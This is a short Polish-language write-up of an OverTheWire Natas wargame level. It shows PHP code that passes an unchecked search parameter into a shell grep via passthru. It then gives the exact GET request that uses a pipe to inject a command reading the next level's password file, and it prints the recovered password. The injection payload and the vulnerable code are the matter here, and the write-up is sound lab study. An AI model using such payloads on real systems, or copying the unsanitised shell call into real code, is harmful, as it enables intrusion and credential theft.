 Ten poziom zawiera input filed do wyszukiwania słów oraz ponownie przekierowanie do kodu źródłowego.

![](Attachments/{3C67A998-0F57-4B27-8558-529BB08E0027}.png)

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Wpisanie słowa w pole zwraca za pomocą narzędzia grep pasujący ciąg znaków z pliku dictionary.txt

Funkcja passthru pozwala na wykonanie polecenia przez zewnętrzny program w systemie. Wartość $key nie jest w żaden sposób sprawdzana, co oznacza, że można za nią podstawić inne polecenie.

Podając pod argument "needle" znap pipe "|" można wykonać kolejne polecenie.

```
GET /?needle=|cat%20../../../../etc/natas_webpass/natas10&submit=Search HTTP/1.1
```

Wynik:
```
Output:
<pre>
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
